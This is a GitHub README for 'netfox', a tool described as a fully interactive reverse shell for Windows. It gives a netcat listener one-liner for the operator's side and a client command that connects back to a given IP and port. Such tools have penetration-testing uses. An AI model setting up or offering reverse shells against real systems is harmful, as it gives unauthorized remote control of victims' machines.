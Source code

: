 # netfox
[![MIT License](https://img.shields.io/badge/License-MIT-green.svg)](../LICENSE.md)
[![Windows Vista+](https://img.shields.io/badge/Windows-10%20|%2011%20-007bb8.svg?logo=Windows)](#)

## Introduction
A fully interactive reverse shell for Windows.

Example usage (server): `s=$(stty -g); stty raw -echo; (stty size; cat) | nc -nlvp <port>; stty $s;`

Example usage (client): `netfox.exe <ip> <port>`

![Usage example](usage.png)

## Remarks
Note that the internal pseudo console used for creating the interactive shell uses a fixed size console buffer based on the value returned from `stty size` in the server example usage command. In other words, once the connection has been established, the console buffer cannot be resized. Make sure your terminal has a preferable size before setting up the listener.
